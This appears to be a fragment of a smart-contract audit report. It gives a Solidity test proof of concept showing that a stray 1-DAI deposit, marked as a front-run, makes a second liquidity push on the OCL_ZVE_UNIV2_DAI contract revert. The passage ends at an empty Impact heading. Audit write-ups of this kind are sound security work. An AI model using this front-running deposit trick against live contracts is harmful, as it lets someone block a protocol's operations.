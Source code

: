 ```solidity

            // Pre-state.
            assertEq(OCL_ZVE_UNIV2_DAI.basis(), 0);
            assertEq(OCL_ZVE_UNIV2_DAI.nextYieldDistribution(), 0);

            assert(
                god.try_pushMulti(
                    address(DAO),
                    address(OCL_ZVE_UNIV2_DAI),
                    assets,
                    amounts,
                    new bytes[](2)
                )
            );

            // Post-state.
            (uint256 basis, uint256 lpTokens) = OCL_ZVE_UNIV2_DAI.fetchBasis();
            assertGt(basis, 0);
            assertGt(lpTokens, 0);
            assertEq(IERC20(DAI).balanceOf(address(OCL_ZVE_UNIV2_DAI)), 0);
            assertEq(
                IERC20(address(ZVE)).balanceOf(address(OCL_ZVE_UNIV2_DAI)),
                0
            );
            assertEq(OCL_ZVE_UNIV2_DAI.basis(), basis);
            assertEq(
                OCL_ZVE_UNIV2_DAI.nextYieldDistribution(),
                block.timestamp + 30 days
            );

            // try adding liquidity again
            //@audit Frontrun and deposit
            deal(DAI, address(OCL_ZVE_UNIV2_DAI), 1);

            assert(
                god.try_pushMulti(
                    address(DAO),
                    address(OCL_ZVE_UNIV2_DAI),
                    assets,
                    amounts,
                    new bytes[](2)
                )
            );
        }
        ....
        }
```

 add this code to the test with the same name and the test will revert. 

## Impact
